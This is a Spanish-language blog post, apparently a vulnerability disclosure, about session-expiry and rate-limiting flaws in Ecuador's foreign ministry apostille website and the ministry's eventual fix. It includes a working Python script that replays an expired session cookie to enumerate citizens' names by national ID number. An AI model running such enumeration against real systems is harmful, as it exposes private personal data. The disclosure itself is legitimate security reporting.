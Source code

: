 ```yaml
---
pubDatetime: 2025-03-08
title: Atacando el Sistema de Apostillas | Cancilleria.gob.ec
description: Explotando fallas en el sistema de apostillas del Ecuador.
featured: false
author: eserror
tags:
  - cancilleria
  - ecuador
  - vulnerabilidad
---
```


Por alguna razón, hace unos meses recibí un correo de parte del Ministerio de Relaciones Exteriores y Movilidad Humana del Ecuador. Este correo anunciaba la disponibilidad de un [nuevo servicio](https://www.cancilleria.gob.ec/2024/07/15/sistema-de-apostillas-y-legalizaciones-electronicas-del-ecuador/) público, el cual permitía apostillar documentos electrónicos de forma oficial.

El día de hoy, he decido escribir un artículo donde exploto unas vulnerabilidades que he encontrado mientras navegaba por el sitio.

## Authentication Bypass

La aplicación falla al comprobar la validez de una cookie/sesión previamente expirada, esto permite a un atacante reusar la sesión y realizar acciones en nombre del usuario.

Es decir, si un atacante consigue robar una sesión de usuario, él podrá realizar acciones en la cuenta o sesión de usuario como si tuviera las credenciales o autorización para realizar dichas acciones.

En la imagen de abajo, se puede ver cómo la aplicación reacciona al recibir una solicitud sin una cookie en de autenticación en las cabeceras HTTP.

![](@assets/images/Screenshot 2024-12-24 at 16.32.12.png)

En la siguiente imágen, se muestra la respuesta de la aplicación ante una solicitud HTTP que incluye una cookie ya expirada.

![](@assets/images/Screenshot 2024-12-24 at 16.41.29.png)

En la imágen de arriba, se puede ver cómo claramente la aplicación falla al mostrar información sensible de otro usuario, mientras se hace uso de una sesion invalida. A pesar de existir una redirección, que idealmente debe llevar al usuario a volver a iniciar sesión, la aplicación entrega información de cualquier usuario para el cual se conozca su cédula, sin validar el tiempo de vida de la sesion.

## Lack of Rate Limiting

La aplicación no pone un límite a la cantidad de solicitudes que un usuario puede realizar, lo cuál permite a un atacante realizar ataques de fuerza bruta para conseguir información privada de un usuario. La explotación de estás vulnerabilidades implica que un atacante puede realizar la suplantación de identidades de usuario e incluso causar interrupciones en el servicio.

El siguiente código pretende explotar dos vulnerabilidades, una falla en el mecanismo de autenticación, y la falta de implementación de un mecanismos que eviten solicitudes reiteradas.

```python
#!/bin/python3

import requests
import urllib3
import re
import json

urllib3.disable_warnings()
s = requests.Session();


def brute_force():

## Es necesario obtener una cookie expirada o valida.

headers = {

"Cookie": "ASP.NET_SessionId=mldtgtkittjfy31eoz1ekp4s; .ASPXAUTH=2F1537AFB2BCEC54CD9429AF1F963DBEE3282C7EA685EBA4A6E9E62D485A8A98C4AA3D35D4261681186D8E96386A74613753B4FB2A1B20D04B2BD18550AF732AA2D460C7BEF5B9661CF9B5AEB386F802B5E4698B6FD42011F855E4F6018DD7E133FA4A1255FAF637B711D544DFF0698DFC6C5CC2408D21CEB023F453085EF9BF63BA1065C99A8FF992B23C1FE0CA3B5AF28ED6050A425CE12A532E123A13E9AC3D4CC5BD1EF63EAE6ED38E7B77E0E32A5A70E3A71FDE5D75C4A7D4E70E8132CD",
"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36",
"X-Requested-With": "XMLHttpRequest",
"Accept-Encoding": "gzip, deflate, br"
}

# Reemplazar por las cedulas que desees consultar

cedulas = ('CEDULA0','CEDULA1', 'CEDULA2','CEDULA3', 'CEDULA4')

for cedula in cedulas:

data = {"numeroDocumento": cedula}
respuesta = s.get('https://eapostillas.cancilleria.gob.ec/Solicitud/ConsultarDatosRegistroCivil?numeroDocumento', data=data, headers=headers, verify=False, allow_redirects=False)

texto_html = respuesta.text
patron = r'(?s)\s*(\{.*\})'
match = re.search(patron, texto_html)
json_data = match.group(1)
data = json.loads(json_data)

print(data['resultado']['NombresCompletos'])


if __name__ == "__main__":

brute_force()
```

## Respuesta de la Cancilleria

Después de varias semanas de espera, por fin obtuve una respuesta, sin embargo esta fue muy decepcionante.

Debo aclarar que, para entender el problema que expongo, no es necesario conocimientos avanzados en sistemas informáticos. Así que, tengo que admitir que no esperaba una respuesta como esta, mucho menos cuando solemos asumir que dos cabezas piensan mejor que una.

El siguiente informe pretende dar una respuesta sobre las vulnerabilidades reportadas, sin embargo, ustedes pueden juzgar por si mismos.

<iframe src="https://drive.google.com/file/d/1lrfjMORi2kzgDZKoa2Bj39AtHxN9UnUO/preview" width="750" height="650" frameborder="0"></iframe>

## "The Fix"

Después de haber leido la respuesta a mi reporte de vulnerabilidades, haber invertido tiempo y esfuerzo en este asunto, naturalmente uno puede llegar a la conclusion que ha sido un esfuerzo en vano.

Pero no es así, ya que el día de hoy revisando nuevamente el serivicio de apostillas, he descubierto un pequeño cambio. Se ha agregado el parámetro token1, el cual asumo fue implementado para evitar reiteradas consultas al servicio.

Al mismo tiempo, se puede observar que la aplicación valida efectivamente si la sesión de un usuario ha expirado, y de acuerdo a esto, decide si mostrar la información solicitada o no.

![](@assets/images/Screenshot 2025-03-08 at 01.09.48.png")

A pesar de que el proceso de remediación no fue tan fluido como esperaba, y muchos inconvenientes en el camino, aún así vale la pena aportar un granito de arena a la seguridad del país. 🫶
